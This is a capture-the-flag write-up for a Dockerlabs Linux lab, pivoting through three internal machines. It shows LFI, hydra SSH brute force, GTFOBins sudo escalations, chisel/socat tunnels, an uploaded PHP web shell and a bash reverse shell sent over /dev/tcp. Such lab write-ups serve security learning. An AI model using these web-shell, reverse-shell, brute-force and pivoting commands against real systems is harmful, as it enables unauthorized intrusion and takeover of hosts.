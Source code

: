 
![image](https://github.com/user-attachments/assets/bb0e3da1-16cb-45b5-8aaa-83ceb2d81ed6)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)         | [Dockerlabs](https://dockerlabs.es/)     | Medium           | Linux   |

---








- I start scaning the open ports
    
    ```bash
    nmap -p- -vvv -sS --min-rate 5000 -Pn 10.10.10.2 -oG scan
    ```
    
    ![image 1](https://github.com/user-attachments/assets/c9f4e387-d513-4475-98cc-5794f733def5)

    

- Scanning open ports
    
    ```bash
    nmap -p22,80 -sCV 10.10.10.2 -oN ports
    ```
    
    ![image 2](https://github.com/user-attachments/assets/34723c1b-b745-4d0e-92ac-650f70fb379d)

    

- We enter the website
    
    ![image 3](https://github.com/user-attachments/assets/b009561c-4997-46aa-b0c2-17fe5f47c86a)

    

- We check the technologies being used by the web application
    
    ```bash
    whatweb 10.10.10.2
    ```
    
    ![image 4](https://github.com/user-attachments/assets/7362722a-a7fd-4e07-96ea-feb25c851cdd)

    

- We perform fuzzing to try to find directories
    
    ```bash
    gobuster dir -u http://10.10.10.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
    ```
    
    ![image 5](https://github.com/user-attachments/assets/36b52e26-f5c6-4b9b-b4d9-fbffdc4caf4f)

    

- I access the website `http://10.10.10.2/shop/`
    
    ![image 6](https://github.com/user-attachments/assets/b58ca28b-f2b5-4f14-9e14-935183aa164b)

    

- It seems that the web page has a parameter with which I can try to load a local file (`LFI`)
    
    ![image 7](https://github.com/user-attachments/assets/8ef7b4c8-659b-47c1-a721-ed1dd5178487)

    

- With the absolute path it does not load anything. When trying with relative paths I managed to load files
    
    ![image 8](https://github.com/user-attachments/assets/562dbb83-78fc-4ed1-a847-f1b12a875862)

    

- I discovered two users, `seller` and `manchi`. I make a brute force attack to try to connect via ssh with one of these users
- With the user `seller` I could not get his password but I could with `manchi`
    
    ```bash
    hydra -l manchi -P /usr/share/wordlist/rockyou.txt ssh://10.10.10.2
    ```
    
    ![image 9](https://github.com/user-attachments/assets/de2f3f21-3099-4bf1-93bb-a41dc5a6d499)

    

- I try to connected via ssh and after searching for a while for ways to escalate our privileges but I don´t found nothing. I tried to brute force with the user `seller`
    [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce)
    
    ```bash
    ./Linux-Su-Force.sh seller rockyou.txt
    ```
    
    ![image 10](https://github.com/user-attachments/assets/31421030-7368-475e-ada8-846fb73aeb85)

    

- I connect as seller and list the commands that I can execute as sudo without providing a password
    
    ```bash
    sudo -l
    ```
    
    ![image 11](https://github.com/user-attachments/assets/ad8bd9d9-3ca3-4560-8018-7146e3b93ef6)

    

- I search in gtfobins for ways to escalate privileges with sudo php and become root
    
    [GTFOBins](https://gtfobins.github.io/)
    
    ```bash
    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
    ```
    
    ![image 12](https://github.com/user-attachments/assets/0cf33d8f-c7df-4e6d-866a-19ad175f50a5)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 20.20.20.0/24
    
    ```bash
    #!/bin/bash
    
    for i in $(seq 1 254); do
    	for port in 21 22 80 443 445 8080; do
    		timeout 1 bash -c "echo '' > /dev/tcp/20.20.20.$i/$port" &>/dev/null && echo "[+] Host 20.20.20.$i - PORT $port - OPEN" &
    	done
    done; wait
    
    ```
    
    ![image 13](https://github.com/user-attachments/assets/e32bed7a-3135-41bb-bc93-99ffc610c73c)

    

- I create a tunnel between the two machines using `chisel`
    
    ```bash
    #Execute this from your machine
    ./chisel server --reverse -p 1234
    
    #Execute this from the 10.10.10.2 machine
    ./chisel client 10.10.10.1:1234 R:1080:socks
    ```
    
    ![image 14](https://github.com/user-attachments/assets/237e7876-f4ef-434a-9471-5a057fa3c94a)

    
    ![image 15](https://github.com/user-attachments/assets/7d3e68cd-f442-48c4-bf18-8e03bfd25e23)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 1080
        ```
        

- As we see that you have a web service on port 80, we perform an enumeration and find a secret.php file.
    
    ```bash
    gobuster dir -u http://20.20.20.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080 -t 5 -x .php,.txt
    ```
    
    ![image 16](https://github.com/user-attachments/assets/4f1e30b3-f8cd-4401-a107-83760a14c036)

    

- We access the page defining a proxy and see a potential user
    
    ![image 17](https://github.com/user-attachments/assets/2d350fdb-8228-4fe2-85db-df1b3ea3162b)

    
    ![image 18](https://github.com/user-attachments/assets/e2c78509-a865-49f1-abd7-d74a2ff470e2)

    

- We make a brute force attack to try to connect via ssh
    
    ```bash
    proxychains4 hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://20.20.20.3 2>/dev/null
    ```
    
    ![image 19](https://github.com/user-attachments/assets/41eb500e-8443-4b5b-b68d-2741aa4304bd)

    

- I connect via ssh and see what commands you can execute as sudo without providing a password
    
    ![image 20](https://github.com/user-attachments/assets/8fe80456-9bba-4e31-85b0-9a24db2e11d3)

    

- I search in gtfobins for ways to escalate privileges with sudo vim and become root
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    ![image 21](https://github.com/user-attachments/assets/38ae33ba-b7c3-4c56-b1ac-9457a5708bce)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 30.30.30.0/24
    
    ![image 22](https://github.com/user-attachments/assets/9c37d0a7-6c05-40a8-8bfc-6eeff3f1f009)

    

- I create a tunnel between the three machines using `chisel` and `socat`
    
    ```bash
    ./chisel client 20.20.20.2:4237 R:8888:socks
    
    ./socat TCP-LISTEN:4237,fork TCP:10.10.10.1:1234
    ```
    
    ![image 23](https://github.com/user-attachments/assets/195ff51e-328f-4c55-8e67-6d8ab8f4164a)

    
    ![image 24](https://github.com/user-attachments/assets/628c4d59-3a5e-470d-9dd7-e302ffc31b80)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 8888
        ```
        

- I scanned the 5000 most common ports and found port 80 open.
    
    ```bash
    nmap -sT -Pn --top-ports 5000 -open- --min-rate 5000 -vvv -n 30.30.30.3 2>/dev/null
    ```
    
    ![image 25](https://github.com/user-attachments/assets/df89e748-4ca2-4bd3-b383-b77690206ff5)

    

- I try to upload a php file with which I can execute commands (`RCE`)
    
    ![image 26](https://github.com/user-attachments/assets/7d181ac8-982a-41b5-bbef-4c249685fd2d)

    
    ![image 27](https://github.com/user-attachments/assets/3d56580d-0db1-4e6c-8f36-4bd82d8e8adc)

    

```bash
<?php 
	system($_GET['cmd']);
?>
```

- I perform fuzzing to find directories
    
    ```bash
    gobuster dir -u http://30.30.30.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --proxy socks5://127.0.0.1:8888
    ```
    
    ![image 28](https://github.com/user-attachments/assets/df947804-acd2-46e2-b2e3-76e7d06aed88)

    

- I find where the file we have just uploaded is located and see that I can execute the following commands
    
    ![image 29](https://github.com/user-attachments/assets/732741c8-3ba3-453a-bd04-5a70303223b2)

    

- I create a tunnel so that when doing a reverse shell I get to our computer.
    
    ```bash
    #Victim 1 (10.10.10.2)
    ./socat TCP-LISTEN:4342,fork TCP:10.10.10.1:4341
    
    #Victim 2 (20.20.20.3)
    ./socat TCP-LISTEN:4343,fork TCP:20.20.20.2:4342
    ```
    
    ![image 30](https://github.com/user-attachments/assets/c05cf7f9-43e7-4533-b507-6abf987ba7b1)

    
    ![image 31](https://github.com/user-attachments/assets/3e4b6f93-d5b7-4bfd-b8b4-54b5dad313fe)

    

- I make the request to create the reverse shell
    
    ```bash
    http://30.30.30.3/uploads/a.php?cmd=bash -c "bash -i >%26 /dev/tcp/30.30.30.2/4343 0>%261"
    ```

    ![image 32](https://github.com/user-attachments/assets/7cfc766d-20e6-4f4d-81d3-34cb5642c072)

    

- I connect as www-data and list the commands that I can execute as sudo without providing a password
    
    ![image 33](https://github.com/user-attachments/assets/2187889a-e248-47bf-93e8-deec77345c22)

    

- I search in gtfobins for ways to escalate privileges with sudo env and become root
    
    ```bash
    sudo env /bin/sh
    ```
    
    ![image 34](https://github.com/user-attachments/assets/4c8aacb3-4727-4f7d-84d0-ffe634a99fd7)

